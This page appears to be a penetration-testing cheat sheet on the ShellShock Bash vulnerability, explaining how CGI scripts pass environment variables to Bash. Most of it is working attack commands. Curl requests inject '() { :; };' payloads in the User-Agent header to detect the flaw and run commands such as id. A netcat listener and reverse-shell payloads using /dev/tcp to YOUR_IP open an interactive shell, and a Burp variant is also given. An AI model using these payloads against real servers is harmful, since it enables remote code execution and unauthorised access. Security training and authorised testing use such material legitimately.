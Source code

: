 # ShellShock

## ShellShock

Is a security bug in the Unix Bash shell that causes Bash to execute bash commands from environment variables. The vulnerability relies on the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. Therefore, an attacker can execute arbitrary commands on the system or exploit other bugs that may exist in Bash's command interpreter, if the attacker has a way to manipulate the environment variable list.

The vulnerability allows us, after not correctly validating the declaration of functions in variables, to execute remote commands on systems through queries in this case by means of web requests. A common foothold can be to list the **/cgi-bin/** directory of a web page. If it exists, we can search for files with the extension **'.cgi'**, although it is not strictly necessary... because it could also be a file with a **'.sh'** extension and the effects would be the same. In case of finding these resources, we can perform tests such as those described below. 

Reflected 

```bash
curl -fs -H "user-agent: () { :; }; echo; echo 'vulnerable'" http://10.10.10.3/cgi-bin/vulnerable | grep vulnerable
```

Blind 

```bash
curl -fs -H "user-agent: () { :; }; /bin/bash -c 'sleep 5'" http://10.10.10.3/cgi-bin/vulnerable
```

Parameters:

* -f: fail silently on HTTP errors. 
* -s: silent mode. 
* -H: pass custom header\(s\) to server.

We can test this with this:

```bash
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://TARGET_IP/cgi-bin/test/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alternatively, we listen through a port on our computer via Netcat

```bash
nc -lvnp YOUR_PORT
```

Then we make the following request from the terminal to the web service:

```bash
User-Agent: () { :;}; /bin/ping -c 1 10.10.14.15
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1" "https://192.168.1.X:10000/cgi-bin/filename.cgi"
```

If everything goes well and you are vulnerable to the exploitation of this vulnerability, we must gain access to the system from our listening session. 

Warning: In case /bin/bash does not work, it is recommended to try alternatives, as there are times when the absolute path of the binary is not the one we have specified, so it will require a slight manual enumeration or a simple alternative mode of connection.

Another option is from BurpSuite, we manipulate the User-Agent so that the following content appears:

```http
User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
```

